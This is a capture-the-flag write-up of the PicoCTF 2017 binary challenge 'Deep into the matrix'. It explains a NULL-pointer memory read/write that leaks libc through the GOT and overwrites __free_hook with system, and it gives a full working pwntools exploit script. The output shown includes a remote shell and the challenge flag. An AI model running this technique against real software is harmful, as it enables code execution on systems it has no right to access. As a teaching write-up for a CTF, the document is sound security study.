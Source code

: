 # PicoCTF_2017: Deep into the matrix

**Category:** Binary
**Points:** 200
**Description:**

Flaws in the matrix have been corrected, and now you must [dive deeper](https://webshell2017.picoctf.com/static/00908bd31222e2b2ac5660ce3842eeac/matrix) to discover its secrets. Jack in at shell2017.picoctf.com:42470.

**Hint:**

Sometimes a NULL pointer can be useful.

The GOT is protected now - you'll have to find something else to attack.

## Write-up

Thanks to [BOAKGP](https://github.com/BOAKGP/CTF-Writeups/tree/master/PicoCTF%202017/Level%204/Binary%20Exploitation/Deeper%20Into%20The%20Matrix) for the guide through solving this writeup.
We are not given source code this time, but when we open the binary in IDA we can notice that it looks almost identical to the one from  `Enter The Matrix`  challenge. Unfortunately the bug seems to be fixed, so we need to find something else.

What attracted my attention was that the program doesn't exit if malloc/calloc fails to allocate memory (as it did in previous challenges). What's more, hints say us that we need NULL pointer and we can easily make one if we try to allocate too much memory.

But what can null pointer be useful for? Maximum matrix size is 10000x10000 and it's array of floats, so we have to multiply this size by 4.  `.got`  section is much closer to null pointer than this size and it allows us to easily leak libc base address.

```
$ r2 /lib32/libc.so.6
[0x00019bc0]> ?v sym.system
0x3e3e0
[0x00019bc0]> ?v sym.setbuf
0x6b350

```

Unfortunately because of RELRO we can't patch  `.got`  section and we have to find another way to execute  `system`. Luckily I found great repository on github with pwn hints (  [https://github.com/Naetw/CTF-pwn-tips#hijack-hook-function](https://github.com/Naetw/CTF-pwn-tips#hijack-hook-function)  ) and it appears that we can hijack some hook functions from libc.

```
?v sym.__free_hook
0x1aa8b8

```

The next problem is that libc is probably loaded too far away from null pointer, so we'll need to create another matrix. We can edit its data pointer and use it to overwrite  `__free_hook`. Last thing we have to do is to create one more matrix and put  `system`  parameter there. When you destroy the last matrix (the one with string in data) it will execute  `free`  function and in result  `system`.

In order for exploit to work every time we need to free all the matrices BEFORE we overwrite  `__free_hook`  (probably there is no enough memory for  `/bin/sh`)

**Final exploit**
```python
#!/usr/bin/env python2

from pwn import *

from struct import pack,unpack

import sys

SETBUF_GOT = 0x0804AFC8

SSCANF_GOT = 0x0804AFF0

SETBUF_OFFSET = 0x6b350

SYSTEM_OFFSET = 0x3e3e0

FREE_HOOK_OFFSET = 0x1aa8b8

MATRICES_ARRAY = 0x0804B080

PRINTF_OFFSET = 0x4cc70

def offsetToXY(offset):

index = offset/4

x = index/10000

y = index%10000

if x>10000:

print("Mission failed, can't get index for address %x"%offset)

sys.exit(1)

return x,y

r = remote("shell2017.picoctf.com",42470)

r.recvuntil("Enter command: ")

r.send("create 6 6\n")#we'll destroy it later, so free(m->data) aka system will be called

r.recvuntil("Enter command: ")

r.send("set 0 0 0 %.9g \n"%(unpack("<f","sh\x00\x00")[0]))

r.recvuntil("Enter command: ")

r.send("create 15 15\n")#we'll set __free_hook with it

r.recvuntil("Enter command: ")

for i in range(2,512):

r.send("create 10000 10000\n")

r.recvuntil("Enter command: ")

x,y = offsetToXY(SETBUF_GOT)

r.send("get %d %d %d\n"%(i,x,y))

res = r.recvuntil("Enter command:").splitlines()[-2].strip()

if "Matrix[%d][%d] = 0"%(x,y) not in res:

setbuf_libc = struct.unpack("<I",struct.pack("<f",float(res[21:])))[0]

break

for j in range(2,i):

r.send("destroy %d\n"%j)

r.recvuntil("Enter command: ")

libc_base = setbuf_libc-SETBUF_OFFSET

system_libc = libc_base+SYSTEM_OFFSET

free_hook_libc = libc_base+FREE_HOOK_OFFSET

matrix_pointer_address = MATRICES_ARRAY+1*4

print("system address %x"%system_libc)

print("libc base %x"%libc_base)

print("free_hook address %x"%free_hook_libc)

x,y = offsetToXY(matrix_pointer_address)

r.send("get %d %d %d\n"%(i,x,y))

res = r.recvuntil("Enter command:").splitlines()[-2].strip()

matrix_address = struct.unpack("<I",struct.pack("<f",float(res[21:])))[0]

matrix_data_address = matrix_address+8

x,y = offsetToXY(matrix_data_address)

r.send("get %d %d %d\n"%(i,x,y))

res = r.recvuntil("Enter command:").splitlines()[-2].strip()

data_ptr = struct.unpack("<I",struct.pack("<f",float(res[21:])))[0]

print("Old matrix[1]->data %x"%data_ptr)

r.send("set %d %d %d %.9g\n"%(i,x,y,unpack("<f",pack("<I",free_hook_libc))[0]))

r.recvuntil("Enter command: ")

r.send("get %d %d %d\n"%(i,x,y))

res = r.recvuntil("Enter command:").splitlines()[-2].strip()

data_ptr = struct.unpack("<I",struct.pack("<f",float(res[21:])))[0]

print("New matrix[1]->data %x"%data_ptr)

r.send("get 1 0 0\n")

res = r.recvuntil("Enter command:").splitlines()[-2].strip()

data_ptr = struct.unpack("<I",struct.pack("<f",float(res[15:])))[0]

print("Old hook %x"%data_ptr)

r.send("set 1 0 0 %.9g\n"%(unpack("<f",pack("<I",system_libc))[0]))

r.recvuntil("Enter command: ")

r.send("get 1 0 0\n")

res = r.recvuntil("Enter command:").splitlines()[-2].strip()

data_ptr = struct.unpack("<I",struct.pack("<f",float(res[15:])))[0]

print("New hook %x"%data_ptr)

r.send("destroy 0\n")

r.interactive()
```
On running this code we get,
```text
$ python solve.py 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/ec2-user/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.2)
[+] Opening connection to shell2017.picoctf.com on port 42470: Done
system address f757f3e0
libc base f7541000
free_hook address f76eb8b8
Old matrix[1]->data 99500c0
New matrix[1]->data f76eb8b8
Old hook 0
New hook f757f3e0
[*] Switching to interactive mode
 $ ls
flag.txt
matrix
xinetd_wrapper.sh
$ cat flag.txt
517c97c471a525694c14c5adb8a3eebe
```

The flag is  `517c97c471a525694c14c5adb8a3eebe`.


<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3ODA5Njc2NTFdfQ==
-->